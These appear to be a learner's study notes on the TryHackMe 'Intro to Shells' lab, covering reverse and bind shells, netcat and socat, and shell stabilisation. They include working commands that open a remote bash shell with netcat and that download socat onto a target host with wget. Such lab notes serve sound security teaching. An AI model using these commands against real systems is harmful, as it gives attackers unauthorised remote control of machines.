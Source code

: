 # Room
https://tryhackme.com/room/introtoshells

# Task 1 - What is a shell?
## Shell Programs
* Linux: sh, bash
* Windows: cmd, powershell
## Shell Types
* Reverse - target connects back to you
* Bind - target opens a port for you to connect to it

# Task 2 - Tools
* netcat - used for reverse and bind shells
* socat - more powerful version of netcat, stable
* metasploit multi/handler - reverse and bind shells, meterpreter shell, payload staging
* msfvenom - create payloads for reverse and bind shells

# Task 3 - Types of Shell
* Reverse - target connects back to your listener
    * Local: sudo nc -nvlp 8888
    * Remote: nc [local_ip] 8888 -e /bin/bash
* Bind - target opens a port for you to connect to
    * Remote: sudo nc -nvlp 8888 -e /bin/bash
    * Local: nc [remote_ip] 8888
* Interactive VS Non-Interactive shells - Interactive shells are the standard experience you are used to when using bash or powershell, you can run all commands, etc.  Non-Interactive shells only allow you to run commands successfully that do not require input, such as ls or dir, commands that require input would not work, such as sudo -l

# Task 4 - Netcat
## Reverse Shell
* sudo nc -nvlp [local_port]
    * -n - don't resolve with DNS
    * -v - verbose
    * -l - create a listener
    * -p - use the following port
    * [local_port] - the port for incoming connections
## Bind Shell
* nc [remote_ip] [remote_port]
    * [remote_ip] - IP that has a listener
    * [remote_port] - port open on the listener

# Task 5 - Netcat Shell Stabalization
Netcat shells aren't stable and are non-interactive by default
* Stabilize with Python
    * upgrade to bash - python -c 'import pty;pty.spawn("/bin/bash")
    * upgrade to term commands - export TERM=xterm
    * upgrade to autocomplete, etc - CTRL+Z, stty raw -echo; fg
    * if the shell dies, type reset and then enter
* Stabilize with rlwrap
    * install first - sudo apt install rlwrap
    * to use - sudo rlwrap nc -nvlp [local_port]
* Stabilize with Socat
    * use netcat to get an initial shell
    * host socat - sudo python3 -m http.server 80
    * transfer socat - wget http://[remote_ip]/socat -O /tmp/socat
    * go through socat setup process to upgrade to that shell
* Change terminal tty size
    * make note of rows and columns - stty -a
    * update rows using number above - stty rows [number]
    * update columns using number above - stty cols [number]
    * changing these values allow text editors and other tools to display properly

